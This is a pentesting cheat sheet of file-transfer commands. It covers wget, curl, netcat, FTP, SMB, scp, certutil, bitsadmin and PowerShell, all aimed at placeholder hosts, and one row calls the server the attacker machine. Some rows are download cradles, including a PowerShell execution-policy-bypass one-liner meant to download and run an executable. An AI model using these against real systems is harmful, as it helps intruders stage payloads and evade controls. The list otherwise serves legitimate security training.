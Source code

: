 # File Transfer

| Command | Description |
|---------|---------|
| `wget http://$IP/file -O /tmp/test.tmp` | Download a file with `wget` to `/tmp/test.tmp`. |
| `curl http://$IP/file` | Download a file with `curl`. |
| `fetch http://$IP/file` | Fetch a file using `fetch`. |
| `nc $IP $port > outfile` | Transfer data via Netcat to a file. |
| `nc -lnvp $port < infile` | Listen with Netcat on a port, sending data from a file. |
| `ftp -s:input.txt` | FTP command using a script. |
| `ftp $ip` | FTP connection to an IP. |
| `get $filename` | Get a file from the FTP server. |
| `sudo apt install python-pyftpdlib` | Install Python FTP library. |
| `sudo python -m pyftpdlib -p 21` | Run an FTP server on port 21. |
| `python -m SimpleHTTPServer 80` | Start a simple HTTP server (Python 2.x). |
| `python -m http.server 80` | Start a simple HTTP server (Python 3.x). |
| `curl -O http://$ip/putty.exe` | Download `putty.exe` with `curl`. |
| `python smbserver.py ata /root/share` | Start SMB server with `/root/share`. |
| `[WIN+R] \\$ip` | Access SMB share from Windows Run. |
| `apt install smbclient` | Install `smbclient` for SMB operations. |
| `smbclient -L $ip` | List SMB shares on the remote machine. |
| `smbclient //$ip/ata` | Access SMB share `ata`. |
| `(new-object System.Net.WebClient).DownloadFile('//$ip/putty.exe', 'd:\\data\\putty.exe')` | Download file via SMB using PowerShell. |
| `bitsadmin /transfer job //example.com/path/putty.exe F:\\putty.exe` | Download file via BITS. |
| `php -S 0.0.0.0:80` | Start PHP server on port 80. |
| `scp $filename user@host:~/path_dir` | Copy file via SCP to remote server. |
| `scp $filename $username@$ip:~/` | Copy file via SCP to remote server. |
| `python -m pyftpdlib 21` | Run FTP server on port 21 (attacker machine). |
| `ftp $ip` | FTP connection to an IP. |
| `bitsadmin /transfer download /priority normal http://$ip/file C:\\output\\path` | BITS download on Windows. |
| `powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile('http://$ip:$port/$filename','C:\\Users\\user\\AppData\\Local\\ack.exe'));}”` | Execute a download and run via PowerShell. |
| `certutil -urlcache -split -f “http://$ip/$filename" $filename` | Download file using `certutil`. |
| `echo $storageDir = $pwd > wget.ps1` | Set storage directory in PowerShell script. |
| `echo $webclient = New-Object System.Net.WebClient >> wget.ps1` | Initialize WebClient in PowerShell script. |
| `echo $url = "http://$ip/$filename" >> wget.ps1` | Set URL for download in PowerShell. |
| `echo $filename = "filename" >> wget.ps1` | Define filename in PowerShell. |
| `echo $webclient.DownloadFile($url,$filename) >> wget.ps1` | Download file in PowerShell. |
| `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File $filename` | Execute PowerShell script to download. |
